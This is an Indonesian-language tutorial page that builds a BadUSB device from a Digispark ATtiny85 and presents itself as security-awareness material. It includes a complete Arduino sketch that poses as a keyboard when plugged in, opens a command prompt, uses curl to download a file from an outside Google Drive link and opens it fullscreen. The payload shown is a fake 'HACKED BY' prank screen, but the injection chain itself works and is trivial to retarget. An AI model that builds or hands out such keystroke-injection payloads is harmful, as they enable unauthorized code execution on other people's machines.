






🔌 BadUSB Digispark (ATtiny85)
BadUSB adalah teknik HID injection: perangkat menyamar sebagai keyboard dan mengetik perintah otomatis begitu dicolok. Dokumentasi ini dibuat untuk pembelajaran keamanan fisik/hardware, riset keamanan, dan kesadaran risiko (security awareness) — bukan untuk dipakai pada perangkat milik orang lain tanpa izin eksplisit. Payload contoh di halaman ini hanya menampilkan layar "prank" (efek visual), tidak melakukan pencurian data, kerusakan sistem, atau eksfiltrasi apa pun — tapi teknik keystroke injection-nya sendiri bisa dipakai untuk hal yang jauh lebih berbahaya, jadi perlakukan seperti materi red-team: hanya pada perangkat/lingkungan yang kamu punya izin untuk menguji.
Overview
Digispark ATtiny85 diprogram lewat Arduino IDE + library DigiKeyboardBe supaya dikenali komputer target sebagai keyboard USB. Begitu dicolok, ia otomatis mengetik urutan tombol: buka Run (Win+R) → buka cmd → jalankan curl untuk mengunduh sebuah file HTML → membukanya di browser secara fullscreen. File HTML itu berisi layar "HACKED BY..." dengan animasi matrix-rain & glitch text — murni tampilan, tanpa payload berbahaya.
Hardware
| Komponen | Keterangan |
|---|---|
Digispark ATtiny85 (board HW-018) | Mikrokontroler USB kecil, disamarkan sebagai keyboard (HID) |
| Arduino IDE 2.3.10 | Untuk menulis & upload sketch ke Digispark |
Library DigiKeyboardBe | Wrapper HID keyboard untuk Digispark (layout Belgian AZERTY, tetap dipakai walau target keyboard lain — lihat catatan di bagian Instalasi) |

Board Digispark ATtiny85 (HW-018) yang dipakai di project ini.
Instalasi
1. Download & Install Driver
Digispark butuh driver USB khusus (bukan CH340) supaya dikenali Windows. Driver: Download Driver Digispark, lalu jalankan installer di dalamnya.

Isi package driver setelah diekstrak: Install Drivers, DPinst/DPinst64, dan komponen digiusb/digiserial.
2. Tambahkan Boards Manager URL
- Buka Arduino IDE → File → Preferences.
- Pada Additional boards manager URLs, isi:
http://digistump.com/package_digistump_index.json, lalu klik OK.

Preferences → Settings, URL Digistump sudah ditambahkan di kolom Additional boards manager URLs.
3. Install Library DigiKeyboardBe
Buka Library Manager (ikon buku di sidebar), cari digiKe, lalu install DigiKeyboardBe by IncroyablePix.

Library Manager: DigiKeyboardBe versi 1.0.0 sudah terinstall.
DigiKeyboardBe memetakan layout keyboard Belgian AZERTY. Kalau target komputer memakai layout lain (mis. US QWERTY/Indonesia), karakter yang diketik bisa meleset — sesuaikan library/layout sesuai keyboard target sebelum dipakai.
4. Pilih Board
Tools → Board → Digistump AVR Boards → Digispark (Default - 16.5mhz).

Board" loading="lazy">Tools → Board → Digistump AVR Boards → Digispark (Default - 16.5mhz) dipilih.
Source Code
Sketch .ino untuk Digispark. Jeda-jeda (delay) diberi cukup panjang supaya Run dialog dan Command Prompt sempat terbuka sebelum ketikan berikutnya dikirim.
#include "DigiKeyboard.h"
void setup() {
// ── JEDA AWAL ──────────────────────────────────────────────────────────
DigiKeyboard.update();
DigiKeyboard.delay(3000);
// ── BUKA RUN DIALOG (WIN+R) ────────────────────────────────────────────
DigiKeyboard.update();
DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
DigiKeyboard.delay(1500);
// ── KETIK CMD DAN EKSEKUSI ─────────────────────────────────────────────
DigiKeyboard.update();
DigiKeyboard.print("cmd");
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(2000); // Jeda agar CMD siap menerima ketikan
// ── KETIK PERINTAH CURL LANGSUNG ───────────────────────────────────────
DigiKeyboard.update();
DigiKeyboard.print("curl -L -o ARIZAL(payload).html \"https://drive.google.com/uc?export=download&confirm=t&id=1v4PpteMicm-G6I4KSgTA1KrYv-9Ih9AC\"");
DigiKeyboard.delay(500);
// ── EKSEKUSI ENTER ─────────────────────────────────────────────────────
DigiKeyboard.update();
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(5000);
DigiKeyboard.update();
DigiKeyboard.print("start ARIZAL(payload).html");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(2000);
DigiKeyboard.sendKeyStroke(KEY_F11);
DigiKeyboard.delay(500);
}
void loop() {
DigiKeyboard.update();
}
Source asli sketch ini juga tersedia di Drive: badusb-digispark.ino (Google Drive).
Alur Eksekusi
| Langkah | Aksi |
|---|---|
| 1 | Device dicolok, jeda 3 detik supaya OS selesai mendaftarkan HID |
| 2 | Win+R membuka dialog Run |
| 3 | Ketik cmd + Enter → Command Prompt terbuka |
| 4 | curl mengunduh payload.html dari Google Drive |
| 5 | start membuka file di browser default, lalu F11 memaksa fullscreen |
Payload — payload.html
Halaman yang otomatis terbuka: efek "matrix rain" di canvas, judul glitch "HACKED BY ALDIPROPEN", terminal palsu dengan efek typewriter, dan jam realtime. Tidak ada permintaan jaringan keluar, tidak ada pengumpulan data — murni CSS animation + JS canvas/DOM, untuk efek kejut visual saja.
<!DOCTYPE html> <html lang="id"> <head> <meta charset="UTF-8"> <meta name="viewport" content="width=device-width, initial-scale=1.0"> <title>SYSTEM COMPROMISED</title> <style> /* --- RESET & BASIC STYLES --- */ * { margin: 0; padding: 0; box-sizing: border-box; } body { background-color: #000; color: #0f0; font-family: 'Courier New', Courier, monospace; overflow: hidden; display: flex; justify-content: center; align-items: center; height: 100vh; } /* --- CANVAS BACKGROUND (MATRIX RAIN) --- */ #matrix { position: fixed; top: 0; left: 0; width: 100%; height: 100%; z-index: 1; opacity: 0.35; } /* --- MAIN CONTENT CONTAINER --- */ .container { position: relative; z-index: 10; text-align: center; padding: 30px; background: rgba(0, 0, 0, 0.85); border: 1px solid #0f0; box-shadow: 0 0 20px rgba(0, 255, 0, 0.4), inset 0 0 15px rgba(0, 255, 0, 0.2); max-width: 750px; width: 90%; border-radius: 4px; } /* --- SKULL IMAGE STYLING --- */ .skull-img { width: 350px; max-width: 80%; height: auto; margin-bottom: 15px; border-radius: 8px; border: 2px solid #ff0033; box-shadow: 0 0 20px rgba(255, 0, 51, 0.8); animation: pulse-glow 2s infinite ease-in-out; } @keyframes pulse-glow { 0% { box-shadow: 0 0 15px rgba(255, 0, 51, 0.6); transform: scale(1); } 50% { box-shadow: 0 0 30px rgba(255, 0, 51, 1); transform: scale(1.03); } 100% { box-shadow: 0 0 15px rgba(255, 0, 51, 0.6); transform: scale(1); } } /* --- GLITCH TEXT EFFECT --- */ .glitch { font-size: 2.5rem; font-weight: bold; color: #ff0033; text-shadow: 0 0 10px #ff0033, 0 0 20px #ff0033; position: relative; letter-spacing: 2px; margin-bottom: 10px; animation: glitch 1s infinite alternate; } @keyframes glitch { 0% { text-shadow: 2px 0 0 red, -2px 0 0 blue; } 50% { text-shadow: -2px 0 0 red, 2px 0 0 cyan; } 100% { text-shadow: 1px -1px 0 red, -1px 1px 0 lime; } } .subtitle { color: #888; font-size: 0.85rem; margin-bottom: 20px; text-transform: uppercase; letter-spacing: 3px; } /* --- TERMINAL & LOG BOX --- */ .terminal { text-align: left; background: #050505; padding: 15px; border-left: 3px solid #ff0033; font-size: 0.9rem; line-height: 1.6; margin-bottom: 20px; min-height: 110px; } .cursor { display: inline-block; width: 8px; height: 15px; background: #0f0; animation: blink 0.8s infinite; vertical-align: middle; } @keyframes blink { 0%, 100% { opacity: 1; } 50% { opacity: 0; } } /* --- WARNING BADGE --- */ .status-badge { display: inline-block; background: #ff0033; color: #fff; padding: 6px 16px; font-weight: bold; font-size: 0.85rem; letter-spacing: 2px; border-radius: 2px; box-shadow: 0 0 10px rgba(255, 0, 51, 0.8); } .footer { margin-top: 15px; font-size: 0.75rem; color: #f5f5f5; } </style> </head> <body> <canvas id="matrix"></canvas> <div class="container"> <img src="https://lh3.googleusercontent.com/d/1yA3aJGadyHdoqu7kSNaHJCydNmDeMwAP" alt="Cyber Skull" class="skull-img" onerror="this.onerror=null; this.src='https://images.unsplash.com/photo-1509198397868-475647b2a1e5?q=80&w=500';"> <div class="glitch">HACKED BY ALDIPROPEN</div> <div class="subtitle">-- SYSTEM SECURITY BREACHED --</div> <div class="terminal"><span id="typewriter"></span><span class="cursor"></span></div> <div class="status-badge">ACCESS DENIED</div> <div class="footer">IP REGISTRATION LOGGED | TIME: <span id="clock"></span></div> </div> <script> /* --- 1. MATRIX RAIN EFFECT --- */ const canvas = document.getElementById('matrix'); const ctx = canvas.getContext('2d'); function resizeCanvas() { canvas.width = window.innerWidth; canvas.height = window.innerHeight; } resizeCanvas(); window.addEventListener('resize', resizeCanvas); const chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@#$%^&*()*&^%'; const fontSize = 14; let columns = Math.floor(canvas.width / fontSize); let drops = Array(columns).fill(1); function drawMatrix() { ctx.fillStyle = 'rgba(0, 0, 0, 0.05)'; ctx.fillRect(0, 0, canvas.width, canvas.height); ctx.fillStyle = '#0f0'; ctx.font = fontSize + 'px monospace'; columns = Math.floor(canvas.width / fontSize); if (drops.length < columns) { while (drops.length < columns) drops.push(1); } for (let i = 0; i < drops.length; i++) { const text = chars.charAt(Math.floor(Math.random() * chars.length)); ctx.fillText(text, i * fontSize, drops[i] * fontSize); if (drops[i] * fontSize > canvas.height && Math.random() > 0.975) { drops[i] = 0; } drops[i]++; } } setInterval(drawMatrix, 33); /* --- 2. TYPEWRITER EFFECT --- */ const textToType = [ "> Initializing payload...", "> Security protocol bypassed.", "> Root access granted to server.", "> Your system security is an illusion.", "> We are watching you." ]; let lineIndex = 0, charIndex = 0; const typewriterElement = document.getElementById('typewriter'); function typeLine() { if (lineIndex < textToType.length) { if (charIndex < textToType[lineIndex].length) { typewriterElement.innerHTML += textToType[lineIndex].charAt(charIndex); charIndex++; setTimeout(typeLine, 40); } else { typewriterElement.innerHTML += "<br>"; lineIndex++; charIndex = 0; setTimeout(typeLine, 300); } } } setTimeout(typeLine, 800); /* --- 3. LIVE CLOCK --- */ function updateClock() { document.getElementById('clock').innerText = new Date().toUTCString(); } setInterval(updateClock, 1000); updateClock(); </script> </body> </html>
Source asli file ini juga tersedia di Drive: payload.html (Google Drive).
Karena tidak ada permintaan jaringan keluar atau akses file system di payload.html, halaman ini aman dibuka/dites langsung di browser mana pun tanpa perlu perangkat Digispark — cukup untuk melihat efeknya.
Upload Sketch ke Digispark
- Klik tombol Upload (ikon panah) di Arduino IDE.
- Saat muncul "Plug in device now... (will timeout in 60 seconds)", colokkan Digispark ke port USB.
- Tunggu proses Uploading... selesai — Digispark otomatis reset & langsung menjalankan sketch begitu upload selesai.

Output build: Sketch uses 3010 bytes (50%) of program storage space, menunggu device dicolok untuk mulai upload.
Referensi
- github.com/IncroyablePix/DigiKeyboardBe — library keyboard HID untuk Digispark
- github.com/digistump/DigistumpArduino — core Arduino resmi untuk board Digistump/Digispark